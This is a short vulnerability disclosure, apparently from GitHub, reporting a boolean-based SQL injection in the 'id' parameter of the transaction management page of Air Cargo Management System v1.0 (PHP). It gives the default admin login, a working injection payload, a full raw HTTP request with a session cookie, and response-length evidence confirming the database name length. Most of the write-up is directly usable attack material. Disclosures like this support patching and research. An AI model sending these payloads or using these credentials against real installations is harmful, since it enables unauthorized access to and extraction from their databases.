# Air Cargo Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

Vulnerability File: /acms/admin/?page=transactions/manage_transaction&id=

Vulnerability location: /acms/admin/?page=transactions/manage_transaction&id=,id

[+] Payload: /acms/admin/?page=transactions/manage_transaction&id=1%27%20and%20length(database())%20=7%20--+ // Leak place ---> id

Current database name: acms_db,length is 7

```sql
GET /acms/admin/?page=transactions/manage_transaction&id=1%27%20and%20length(database())%20=7%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=aaffvur9cmo069649rorqsbmeh
Connection: close
```

When length (database ()) = 6, Content-Length: 37255
![image](https://user-images.githubusercontent.com/54017627/166405870-f1c0c267-1175-43c0-a9d6-29e68355f38b.png)

![image](https://user-images.githubusercontent.com/54017627/166405822-1a2ba6a0-5c06-4a3e-8754-60673b2191ee.png)

When length (database ()) = 7, Content-Length: 43289
![image](https://user-images.githubusercontent.com/54017627/166405848-0ae8c3a3-77a2-40c1-8b73-d9ecd1b1a7b9.png)

![image](https://user-images.githubusercontent.com/54017627/166405794-a11f4612-cc09-4730-bdb3-743806ea90c7.png)


